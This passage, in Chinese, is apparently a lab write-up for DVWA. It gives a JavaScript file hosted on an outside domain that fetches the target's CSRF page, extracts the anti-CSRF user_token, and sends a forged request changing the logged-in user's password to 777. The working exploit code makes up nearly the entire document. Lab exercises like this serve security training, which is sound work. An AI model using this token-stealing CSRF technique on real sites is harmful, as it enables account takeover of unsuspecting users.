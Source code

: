 <br/><br/>



測試csrf沒問題後，把JS code拿出來放在外網

我這邊為www.k.com/hack.js

```javascript=
async function getToken(url) {

 	let data = await fetch(url);

 	// data 轉為 text
 	data = await data.text();

 	//創造dom 物件
	const parser = new DOMParser();

	//把resoonse資料轉成dom
	const htmlDoc =  parser.parseFromString(data, "text/html");


	//querySelector 抓取 token 
	let token =  htmlDoc.querySelector("input[name=user_token]").value; 

	//回傳token
	return token;

}






async function csrf_send() {

	//拿token
	let url = "http://www.dvwa.com/vulnerabilities/csrf/";
    
	let token =  await getToken(url);

        //csrf 
	csrf_url_Request = "http://www.dvwa.com/vulnerabilities/csrf/?password_new=777&password_conf=777&Change=Change&user_token="

	//加上token 
	csrf_url_Request += token;

	//console.log(csrf_request) ;
	
        //fetch 發出請求
	fetch(csrf_url_Request);

}


csrf_send();
```
